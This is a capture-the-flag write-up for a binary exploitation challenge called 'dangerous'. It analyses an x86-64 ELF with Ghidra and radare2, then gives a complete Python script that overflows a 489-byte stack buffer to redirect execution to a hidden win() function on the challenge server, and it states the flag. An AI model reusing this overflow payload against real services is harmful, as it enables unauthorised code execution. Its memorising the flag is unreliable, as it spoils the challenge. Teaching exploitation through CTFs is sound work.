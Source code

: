 README


### Dangerous
75 points

Hey! Listen!

Connect here:

...

dangerous


## Flag 
```shell
flag{legend_of_zelda_overflow_of_time}
```

## Solution
Grab a copy of Ghidra if you haven't already (https://ghidra-sre.org/). If this is new to you, watch a few videos, read the docs, try some tutorials. Radar2 (https://github.com/radareorg/radare2) comes installed with Kali.

Firsts things first, file and strings:
```shell
kali@kali:~/Desktop$ file dangerous 
dangerous: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=2b7e7edf071a5dd08228a996ed76400783fba08c, for GNU/Linux 3.2.0, stripped
kali@kali:~/Desktop$ strings -n 10  dangerous 
...
What's your name?
Uh-oh... something's not right... good luck...
./flag.txt
...
```

The "What's your name?"  and "./flag.txt" strings look promising. Find these in the binary with Ghidra. 

Function starting at 0x004011d6, let's call it main() and function starting at 0x00401312, let's call it win(). main() prints some stuff to the screen and gets the user's input. win() accesses 'flag.txt' and prints it. There is no connection between the two. Thus win() is an impossible jump. The only way to get to it is to force the jump or get a shell, something exploit-y. Other than that, the code is pretty simple. 

Let's move to dynamic analysis. Run radar2 and set a breakpoint close to the end of main():
```shell
kali@kali:~/Desktop$ r2 -d dangerous 
Process with PID 1386 started...
= attach 1386 1386
bin.baddr 0x00400000
Using 0x400000
asm.bits 64
Warning: r_bin_file_hash: file exceeds bin.hashlimit
[0x7f67068be090]> db 0x0040130c
[0x7f67068be090]> dc
What's your name?

```

Enter some recognizable patten, I use 'a' on repeat. Not too many, don't want to break it yet. Hit enter and program will continue to the breakpoint.
```shell
It's dangerous to go alone! Take this, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

         █   
        ███  
        ███                                                                                                                                                                                                                                
        ███                                                                                                                                                                                                                                
        ███                                                                                                                                                                                                                                
        ███                                                                                                                                                                                                                                
        ███                                                                                                                                                                                                                                
        ███                                                                                                                                                                                                                                
        ███                                                                                                                                                                                                                                
        ███                                                                                                                                                                                                                                
      ███████                                                                                                                                                                                                                              
      █ ███ █                                                                                                                                                                                                                              
        ███                                                                                                                                                                                                                                
        ███                                                                                                                                                                                                                                
        ███                                                                                                                                                                                                                                
                                                                                                                                                                                                                                           
hit breakpoint at: 40130c  
```

Radar2 has a decent visual interface, access it using vv. 

![a92f6f8378ba50cad79443d76d69066f.png](../../_resources/b0ae20ef4ccf4e7aacd1924035da4204.png)

Big offset between stack pointer and base pointer. What's in this space? Well, for one, our input. Really close to the base pointer and thus the return address for main().

![ce28a5f22b272b934cc24aa975485fd3.png](../../_resources/1d78bf561a2a482fba2577929c6763bf.png)

Our input shows up at 0x7fffbe5ce918 and the base pointer is at 0x7ffbe5ceb00. 

0xeb00 - 0xe918 + 1 = 489 bytes. 

If we craft an input that is 489 bytes, plus 8 more to overwrite the base pointer then we can tack on the instruction we want to jump to when main() returns - i.e. win().
```python
import socket
from time import sleep

eip = b'\x12\x13\x40\x00\x00\x00\x00\x00' 
# 489 for the buffer to fill 
# and another 8 bytes to get pass the base pointer
c = 489 + 8 
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect(('jh2i.com', 50011))
sleep(0.25)
data = client.recv(5000)
print(data.decode())
text = ('a'*c).encode()
payload = text + eip + b'\n'
client.send(payload)
sleep(0.25)
data = client.recv(5000)
print(data.decode())
```

And what do we get for all our hard work? A flag!
